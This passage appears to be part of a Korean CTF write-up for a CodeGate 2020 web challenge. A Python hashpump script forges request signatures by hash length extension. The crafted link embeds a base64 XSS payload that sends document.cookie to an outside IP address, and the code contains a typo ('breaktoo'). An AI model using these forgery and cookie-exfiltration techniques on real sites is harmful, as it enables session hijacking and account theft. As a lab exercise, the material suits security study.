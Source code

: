 ```python
def found():
    for i in range(1,32):
        [sig, value] = hashpump(ori_sig, ori_msg, "Test", i)
        # [sig, value] = os.popen("hashpump -s '{s}' -d '{d}' -a '{a}' -k {k}".format(s=ori_sig, d=ori_msg, a="Test", k=i)).read().strip().split('\n')
        params = {'q' : b64encode(eval("b'''" + value + "'''")).decode(),
                'sig' : sig}
        response = requests.get(url,params)
        if "??" not in response.text:
            key_len = i
            breaktoo
        print(params)
        print(response.text+" : ",i)

    print("found!!!key_length!!!!!! : "+str(key_len))
    return key_len

[sig, value] = hashpump(ori_sig, ori_msg, msg_1+msg_2+msg_3, 12)
# [sig, value] = os.popen("hashpump -s '{s}' -d '{d}' -a '{a}' -k {k}".format(s=ori_sig, d=ori_msg, a=msg_1+msg_2+msg_3, k=12)).read().strip().split('\n')
params = {'q' : b64encode(value).decode(),
        'sig' : sig}
print(url+"?q={}&sig={}".format(params['q'],params['sig']))
# response = requests.get(url,params)
# print(response.text)

# print(response.url)

```

다시 한번 스크립트를 돌려봅니다.

http://110.10.147.166/api.php?q=WW05a2VRPT0sN1l5QTY2cW82NUdRSVE9PSyAAAAAAAAAAAAAAAAAAAAAAAAwAQAAAAAAAHxhR1ZoWkdWeSxhSFIwY0M4eExqRT0sTkRBMHxZbTlrZVE9PSxQSE5qY21sd2RBbytaRzlqZFcxbGJuUXViRzlqWVhScGIyNDlJbWgwZEhBNkx5OHlOeTQ1Tmk0eE16VXVNVFEwTDJOdmIydHBaVDlqYjI5cmFXVTlJaXRrYjJOMWJXVnVkQzVqYjI5cmFXVTdDand2YzJOeWFYQjBDajQ9LHxZMjl2YTJsbCxZMjl2YTJsbGN5RT0sN1l5QTY2cW82NUdRSU8yWmxPeWR0TzJNaFNFPQ==&sig=7654fbf53d260c2176bf0122ed1b0b35

이제 완성된 링크를 report에 제출합니다.

그리고 이제 웹 서버로 들어가 파일을 확인 합니다.

![image-20200214035820505](image/CodeGate-writeup-csp_web/image-20200214035820505.png)

```
CODEGATE2020{CSP_m34n5_Content-Success-Policy_n0t_Security}
```
